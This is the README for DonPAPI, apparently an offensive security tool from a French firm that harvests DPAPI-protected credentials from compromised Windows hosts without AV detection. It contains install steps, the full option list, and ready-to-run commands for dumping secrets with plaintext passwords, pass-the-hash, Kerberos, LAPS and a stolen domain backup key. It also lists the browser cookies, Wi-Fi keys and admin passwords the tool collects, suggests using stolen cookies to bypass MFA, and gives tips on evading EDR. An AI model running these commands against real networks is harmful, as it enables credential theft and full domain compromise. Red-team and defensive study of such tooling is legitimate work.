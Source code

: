 

##
#
https://github.com/login-securite/DonPAPI
#
##

DonPAPI
Dumping revelant information on compromised targets without AV detection alt text

Lots of credentials are protected by DPAPI.

We aim at locating those "secured" credentials, and retrieve them using :

User password
Domaine DPAPI BackupKey
Local machine DPAPI Key (protecting TaskScheduled blob)
We made a talk in french about DPAPI called DPAPI - Don't Put Administration Passwords In 🇫🇷:

Slides
Video - coming soon
Table of Contents
DonPAPI
Table of Contents
Installation
Helper
Usage
Currently Gathered Info
Compliance check
Operational use
Reports & Raw Data
Opsec consideration
Credits
Todo
Installation
This tool should be install with pipx or in a dedicated virtual environment

pipx install donpapi
DonPAPI
or (with latest commits)

pipx install git+https://github.com/login-securite/DonPAPI.git
or (to dev)

git clone git+https://github.com/login-securite/DonPAPI.git
cd DonPAPI
poetry update
poetry run DonPAPI
Helper
$ DonPAPI


         ,
       ,                                                 LeHack Release! 💀
        (
       .                                          by Touf & Zblurx @ Login Sécurité
                                &&&&&&
     &&&&&%%%.                  &&&&&&
      &&&&%%%              &&&& &&&&&&       &&&&&&            &&&&&.
      &&&&%%%           &&&&&&& &&&&&&    &&&&&&&&&&&&&     &&&&&&&&&&&
      &&&&%%%         &&&&&&&&& &&&&&&  &&&&&&&&&&&&&&&&   &&&&&&&&&&&&&
    &&&&&&%%%%%       &&&&&&    &&&&&&  &&&&&&    &&&&&&   &&&&&   &&&&&   #####
 &&&&&&&&&%%%%%%%     &&&&&&&&&&&&&&&&  (&&&&&&&&&&&&&&&   &&&&&   &&&&&   # # #
 &/&/////////////%      &&&&&&&&&&&&      &&&&&&&&&&&&     &&&&&   &&&&&   #####
&&/&/#////////(//%         &&&&&&            &&&&&&        &&&&&   &&&&&    ###
&&/&/////////////%
&&/&/////////////%        &&&&&&&&&        &&&&&&&&&&        &&&&&&&&&     &&&&&
&&/&//////////(//%     &&&&&&&&&&&&&&    &&&&&&&&&&&&&&   &&&&&&&&&&&&&&   &&&&&
&&/&/////////////%     &&&&&&   &&&&&&  &&&&&&   &&&&&&&  &&&&&&   &&&&&&  &&&&&
&&/&///////////(/%    &&&&&&    &&&&&&  &&&&&&    &&&&&& &&&&&&    &&&&&&  &&&&&
&&/&///(/////////%    &&&&&& &&&&&&&&&  &&&&&&&&& &&&&&& &&&&&& &&&&&&&&&  &&&&&
&&/&/////////////%    &&&&&& &&&&&&&      &&&&&&& &&&&&& &&&&&& &&&&&&&    &&&&&
&&#&###########/#%    &&&&&&                             &&&&&&
&&###############%    &&&&&&                             &&&&&&

```
usage: DonPAPI [-h] [-credz CREDZ] [-pvk PVK] [-d] [-t number of threads] [-o OUTPUT_DIRECTORY] [-H LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-local_auth] [-laps] [-dc-ip ip address]
               [-target-ip ip address] [-port [destination port]] [-R] [--type TYPE] [-u] [--target] [--no_browser] [--no_dpapi] [--no_vnc] [--no_remoteops] [--GetHashes] [--no_recent] [--no_sysadmins]
               [--from_file FROM_FILE]
               [target]
```
SeatBelt implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

optional arguments:
  -h, --help            show this help message and exit
  -credz CREDZ          File containing multiple user:password or user:hash for masterkeys decryption
  -pvk PVK              input backupkey pvk file
  -d, --debug           Turn DEBUG output ON
  -t number of threads  number of threads
  -o OUTPUT_DIRECTORY, --output_directory OUTPUT_DIRECTORY
                        output log directory

authentication:
  -H LMHASH:NTHASH, --hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the
                        command line
  -aesKey hex key       AES key to use for Kerberos Authentication (1128 or 256 bits)
  -local_auth           use local authentification
  -laps                 use LAPS to request local admin password

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server

Reporting:
  -R, --report          Only Generate Report on the scope
  --type TYPE           only report "type" password (wifi,credential-blob,browser-internet_explorer,LSA,SAM,taskscheduler,VNC,browser-chrome,browser-firefox
  -u, --user            only this username
  --target              only this target (url/IP...)

attacks:
  --no_browser          do not hunt for browser passwords
  --no_dpapi            do not hunt for DPAPI secrets
  --no_vnc              do not hunt for VNC passwords
  --no_remoteops        do not hunt for SAM and LSA with remoteops
  --GetHashes           Get all users Masterkey's hash & DCC2 hash
  --no_recent           Do not hunt for recent files
  --no_sysadmins        Do not hunt for sysadmins stuff (mRemoteNG, vnc, keepass, lastpass ...)
  --from_file FROM_FILE
                        Give me the export of ADSyncQuery.exe ADSync.mdf to decrypt ADConnect password
Usage
Dump all secrets of the target machine with an Domain admin account :

DonPAPI domain/user:passw0rd@target
or a Local one :

DonPAPI -local_auth user@target
Using PtH

DonPAPI --hashes <LM>:<NT> domain/user@target
Using kerberos (-k)

DonPAPI -k domain/user@target
Using a user with LAPS password reading rights

DonPAPI -laps domain/user:passw0rd@target
Using relayed socks:

HackndoRealying

To decrypt secrets DonPapi might need :

Nothing, when facing reversible encryption (firefox, mremoteNG, VNC)
the machine DPAPI Key, we will fetch it automatically thanks to secretdumps when having an admin acces (Wifi, scheduled task passwords)
the user password for everything related to DPAPI Protection, or de DPAPI Domain Backup key
It is possible to provide a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

user1:pass1
user1:pass2
user2:passX
...
DonPAPI -credz credz_file.txt domain/user:passw0rd@target
When a domain admin user is available, it is possible to dump the domain backup key using impacket dpapi.py tool:

dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
Or with dploot:

dploot backupkeys -u username -p password -d domain 192.168.56.30
This backup key (pvk file) can then be used to dump all domain user's secrets!

DonPAPI -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list
Target can be an IP, IP range, CIDR, FQDN, file containing list targets (one per line)

Curently gathered info
Windows credentials (Taskscheduled credentials & a lot more)
Windows Vaults
Windows RDP credentials
Windows certificates
AdConnect (still require a manual operation)
Wifi key
Internet explorer Credentials
Chrome cookies & credentials (and chrome like : Edge)
Firefox cookies & credentials
VNC passwords
mRemoteNG password (with default config)
putty, WinSCP
Google Refresh Token
Compliance check
SMB signing status
OS/Domain/Hostname/Ip of the audited scope
Operational use
With local admin account on a host, we can :

Gather machine protected DPAPI secrets
ScheduledTask that will contain cleartext login/password of the account configured to run the task
Wi-Fi passwords
Extract Masterkey's hash value for every user profiles (masterkeys beeing protected by the user's password, let's try to crack them with Hashcat)
Identify who is connected from where, in order to identify admin's personal computers.
Extract other non-dpapi protected secrets (VNC/Firefox/mRemoteNG)
Gather protected secrets from IE, Chrome, Firefox and start reaching the Azure tenant.
With a user password, or the domain PVK we can unprotect the user's DPAPI secrets.

Use cookies to bypass MFA (https://www.eshlomo.us/pass-the-cookie-crumble-the-cloud/)
Reports & Raw Data
DonPapi will extract and consolidate a bunch of raw information:

raw user and passwords in 'raw_credz'
dumped certificates informations
raw cookies
raw sam hash
raw users masterkey's hash (Good luck with cracking those, but it might be the only hash you'll get for some SuperAdmin Accounts)
raw DCC2
To generate the report, just use DonPAPI with -R.

HTML Reports will be created, as you'll probably have so many passwords that your browser will crash rendering it, i tried to separate those in few reports.

Cookies are great to bypass MFA, by clicking on a cookie in the report you'll copy what you need to paste to cookie in your browser dev console.

If the certificate allow client authentication, you can click on "Yes" to get a working certipy auth command with the certificate in your clipboard.

some info are excluded from the reports, you can still acces all the data in the sqlite3 donpapi.db database.

Opsec consideration
The RemoteOps part can be spoted by some EDR (it's basically a secretdump). It can be disabled using --no_remoteops flag, but then the machine DPAPI key won't be retrieved, and scheduled task credentials/Wi-Fi passwords won't be harvested.

Credits
All the credits goes to these great guys for doing the hard research & coding :

Benjamin Delpy (@gentilkiwi) for most of the DPAPI research (always greatly commented, <3 your code)
Alberto Solino (@agsolino) for the tremendous work of Impacket (https://github.com/SecureAuthCorp/impacket). Almost everything we do here comes from impacket.
Alesandro Z & everyone who worked on Lazagne (https://github.com/AlessandroZ/LaZagne/wiki) for the VNC & Firefox modules, and most likely for a lots of other ones in the futur.
dirkjanm @_dirkjan for the base code of adconnect dump (https://github.com/fox-it/adconnectdump) & every research he ever did. I learned so much on so many subjects thanks to you. <3
@byt3bl33d3r for CME (lots of inspiration and code comes from CME : https://github.com/byt3bl33d3r/CrackMapExec )
All the Team at @LoginSecurite for their help in debugging my shity code (special thanks to @layno & @HackAndDo for that)
Todo
Finish ADSync/ADConnect password extraction
CREDHISTORY full extraction
Further analysis ADAL/msteams
Implement Chrome <v80 decoder
Find a way to implement Lazagne's great module
Implement ADCS PKI export
